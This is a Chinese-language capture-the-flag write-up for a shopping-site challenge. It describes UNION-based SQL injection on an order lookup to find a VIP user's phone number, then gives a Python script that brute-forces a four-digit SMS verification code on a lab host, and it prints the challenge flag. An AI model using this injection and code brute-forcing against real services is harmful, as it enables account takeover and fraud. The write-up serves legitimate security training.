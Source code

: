 # build it————商城购买

## Flag=flag{shopping_is_my_favorite_hobby}

## 具体过程
- 正常注册及登录，购买价格为0的商品，获得订单编号873
- 进入“我的订单”，输入订单编号873，可以看到具体订单信息。在开发者工具的Network中，可以看到具体的查询语句，确认有Orders表。<br>
![](./image/orders.png)
- 利用联合查询查看Order表中是否有下单价格较高的“超级用户”，发现ID=1和2的用户比较有钱，可能是“超级用户”。
![](./image/vip_order.png)
- 推测数据库中存在User表，尝试select成功，确定有User表
![](./image/table_user.png)
- 查看id=1和id=2的用户User表的内容，发现id=1的用户是VIP，可以锁定目标了。用户名为VIP_FIND_MY_PHONE，根据输出的提升信息，猜测13300001111为手机号。退出当前用户，用手机号进行登录。
![](./image/user_id=1.png)
![](./image/user_id=2.png)
- 手机登录时要进行验证码破解，刚开始尝试用burpsuite，但是受限于网速和验证码的60s过期的机制，放弃了。经讨论使用python利用代码进行自动化登录购买最后获取flag。
   ``` bash
   import requests as req
   session = req.session()

   while True:
        url='http://10.64.137.190:8003/src/user/sendVerifyCode.php?'
        resp=session.get(url, params={'phonenumber':'13300001111'})  #请求发送验证码
        ls =0
        url2='http://10.64.137.190:8003/src/user/verifyPhoneVc.php?' #验证验证码
        for i in range(1000, 10000): #验证码为四位
            resp=session.get(url2,params={'phonenumber':'13300001111','verifycode':i})
            if i==1000:
                ls=resp.headers['Content-Length'];
                # print(resp.headers)
            if ls!=resp.headers['Content-Length']:  
                url3='http://10.64.137.190:8003/src/order/placeAnOrder.php?' # 购买商品
                res=session.get(url3,params={'prodid':1})
                # print(resp.headers)
                print(res.content)
    ```
   - for循环里面的`if ls!=resp.headers['Content-Length']`判断语句是因为验证过正确验证码的Content-Length和其它的不一样。
   ![](./image/content_length.png)  
- 最后得到的flag=flag{shopping_is_my_favorite_hobby}
![](./image/flag.png)